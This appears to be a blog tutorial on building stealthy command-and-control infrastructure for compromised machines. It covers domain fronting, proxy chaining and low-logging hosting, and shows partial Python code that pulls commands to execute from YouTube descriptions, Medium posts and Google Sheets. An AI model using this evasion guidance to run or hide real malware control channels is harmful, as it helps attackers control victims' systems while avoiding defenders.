 ```yaml
---
layout: post
title: "Crafting an Advanced and Inconspicuous C2 Infrastructure"
date: 2024-06-25
categories: security c2
---
```


## Crafting an Advanced and Inconspicuous C2 Infrastructure

In today's cybersecurity landscape, creating a Command and Control (C2) infrastructure that is both advanced and inconspicuous is paramount. Whether you're involved in ethical hacking, penetration testing, or other legitimate purposes, your C2 operations must remain undetectable. This blog post explores innovative ways to establish an advanced C2 infrastructure using free platforms such as YouTube, Medium, and Google Sheets. Let's dive into the art of blending in with regular web traffic while maintaining the stealth you need.

### What is a C2 Server?

A C2 (Command and Control) server is a central hub used to send commands to and receive data from compromised systems (bots). For your script to operate effectively and inconspicuously, your C2 server should:
- Host command files for the script to fetch and execute.
- Receive data and status updates from the script.
- Ensure all communications are encrypted and stealthy.

### Setting Up a Stealthy C2 Server

#### 1. Choose a Stealthy Hosting Solution
- **Cloud Providers:** Use reputable cloud providers (AWS, Google Cloud, Azure) with minimal logging and monitoring.
- **Domain Fronting:** Use domain fronting to disguise traffic as legitimate requests to well-known services.
- **Proxy Servers:** Route traffic through multiple proxy servers to obscure the origin and destination.

#### 2. Use HTTPS with Domain Fronting
- **HTTPS:** Ensure all communications are encrypted using HTTPS.
- **Domain Fronting:** Configure your C2 server to use domain fronting. This technique routes traffic through high-reputation domains, making it appear as legitimate traffic.

#### 3. Create a Web Server with Stealth Features
- **Server Software:** Use a lightweight web server like Nginx or Apache.
- **Stealth Configuration:** Configure the server to use inconspicuous URLs and paths. Hide server banners and error messages.

*Example Nginx configuration with stealth features*:

```nginx
server {
    listen 443 ssl;
    server_name mylegitdomain.com;

    ssl_certificate /etc/ssl/certs/mylegitdomain.com.crt;
    ssl_certificate_key /etc/ssl/private/mylegitdomain.com.key;

    location /api {
        proxy_pass http://backend_server;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_hide_header X-Powered-By;
        add_header X-Content-Type-Options nosniff;
        add_header X-Frame-Options DENY;
    }
}
```

#### 4. Implement Encrypted Command and Control
- **Commands Endpoint**: Create an endpoint for fetching commands.
- **Webhook Endpoint**: Create an endpoint for receiving data and status updates.
Example Flask application to handle commands and webhooks:*

[Flask Code Here](https://github.com/Dyst0rti0n/blog-scripts/c2-scripts/flask)

## Free and Inconspicuous C2 Hosting Platforms
#### 1. YouTube: A Video Platform Turned C2 Hub
Imagine leveraging YouTube, the world’s largest video-sharing platform, as your stealthy C2 server. By embedding commands within video descriptions or comments, you can seamlessly blend your C2 operations into the vast sea of YouTube content.

#### Why YouTube?

- **Publicly Accessible**: Easily accessible and free.
- **High Traffic**: Blends in with regular traffic.
= **Dynamic Content**: Regular updates and high engagement.

#### Setting Up:
- **Create a YouTube Channel**: Use an anonymous or nondescript name.
- **Upload Videos**: Include commands in video descriptions or comments.
- **Fetch Commands**: Use the YouTube API to parse the descriptions.

*Example: Fetching Commands from YouTube Descriptions*

```python
from googleapiclient.discovery import build

def get_latest_video_description(api_key, channel_id):
    youtube = build('youtube', 'v3', developerKey=api_key)
    request = youtube.search().list(part='snippet', channelId=channel_id, order='date', maxResults=1)
    response = request.execute()
    
    if response['items']:
        video_id = response['items'][0]['id']['videoId']
        video_request = youtube.videos().list(part='snippet', id=video_id)
        video_response = video_request.execute()
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/c2-scripts/youtube-hub)


#### 2. Medium: Blogging with a Hidden Agenda
Medium is a popular platform for sharing ideas and stories, but with a twist, it can become your covert C2 server. By posting commands as blog entries, you can hide in plain sight among the thousands of articles published daily.

#### Why Medium?
- **Public and Free**: Easily accessible and free.
- **Frequent Updates**: Constantly updated with new posts.
- **Anonymity**: Easy to create multiple accounts.

#### Setting Up:
1. **Create a Medium Account**: Use an anonymous or nondescript name.
2. **Post Commands**: Embed commands within blog posts.
3. **Fetch Commands**: Use RSS feeds or web scraping to fetch the latest commands.

*Example: Fetching Blog Posts from Medium*

```python
import feedparser
import time

def get_latest_post(feed_url):
    """
    Fetch the latest blog post from a given Medium RSS feed URL.

    Parameters:
    feed_url (str): The URL of the Medium RSS feed.

    Returns:
    str: The title of the latest blog post if available, otherwise None.
    """
    feed = feedparser.parse(feed_url)
    if feed.entries:
        return feed.entries[0].title
    return None
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/c2-scripts/medium-fetcher)

#### 3. Google Sheets: Spreadsheet C2 Mastery
Google Sheets, a ubiquitous tool for collaboration and data storage, can also serve as an inconspicuous C2 server. By using the Google Sheets API, you can store commands and fetch them as needed.

#### Why Google Sheets?
- **Collaboration Tool**: Commonly used for legitimate purposes.
- **API Access**: Easy to fetch and update data programmatically.
- **Free**: Generous free tier for storage and access.

#### Setting Up:
1. **Create a Google Sheet**: Share with a service account for API access.
2. **Post Commands**: Add commands as new rows in the sheet.
3. **Fetch Commands**: Use the Google Sheets API to retrieve commands.

*Example: Fetching Commands from Google Sheets*


```python
import gspread
from oauth2client.service_account import ServiceAccountCredentials
import json
import sys

def get_latest_command(sheet_url, creds_json):
    try:
        scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
        
        creds = ServiceAccountCredentials.from_json_keyfile_name(creds_json, scope)
        client = gspread.authorize(creds)
        
        sheet = client.open_by_url(sheet_url).sheet1
        
        commands = sheet.get_all_records()
        
        if commands:
            return commands[-1]['Command']
        else:
            return None
...
```

[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/c2-scripts/google-sheets)

### Conclusion
In an age where cybersecurity measures are becoming increasingly sophisticated, it's essential to think outside the box to stay ahead. Leveraging platforms like YouTube, Medium, and Google Sheets not only provides a cost-effective C2 infrastructure but also helps maintain a low profile. These methods allow your operations to blend seamlessly into the vast digital landscape, reducing the risk of detection.

Remember, with great power comes great responsibility. Ensure that all actions taken are ethical and legal, and that you have explicit permission to operate on any systems you control. Misuse of such technology can lead to severe legal consequences.

Stay stealthy, stay ethical, and continue exploring the boundaries of cybersecurity innovation!